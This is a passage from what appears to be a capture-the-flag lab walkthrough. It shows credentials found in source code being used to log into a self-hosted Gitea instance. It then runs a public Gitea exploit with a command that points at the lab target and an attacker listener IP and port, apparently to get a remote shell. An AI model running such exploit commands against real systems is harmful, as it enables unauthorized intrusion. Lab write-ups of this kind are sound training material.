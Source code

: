 ![[Pasted image 20240813230217.png]]

![[Pasted image 20240813230226.png]]

A set of creds 

>[!Creds]
>Username : achilles
>Password : h2sBr9gryBunKdF9


<hr>

### Gaining Access :

So im gonna save u time to say that we have a self host gitea running on port 3000 that's why its open, lets login with this user

![[Pasted image 20240813230439.png]]

Lets login as that user 

![[Pasted image 20240813230529.png]]

![[Pasted image 20240813230637.png]]

Two private repos here 

and in the bottom on the page 

![[Pasted image 20240813230728.png]]

Lets check for exploit for this version

![[Pasted image 20240813230833.png]]

This is not the right version but this worked for me so copy this to your dir like this 

![[Pasted image 20240813230939.png]]

i changed the name to this so its to work with

![[Pasted image 20240813231039.png]]

alright execute it like this 

```
python3 exploit.py -t http://192.168.110.119:3000 -u achilles -p h2sBr9gryBunKdF9 -I 192.168.110.64 -P 9001
```

it should show this in the end 

![[Pasted image 20240813231224.png]]

Now go to Symfonos-blog repo 
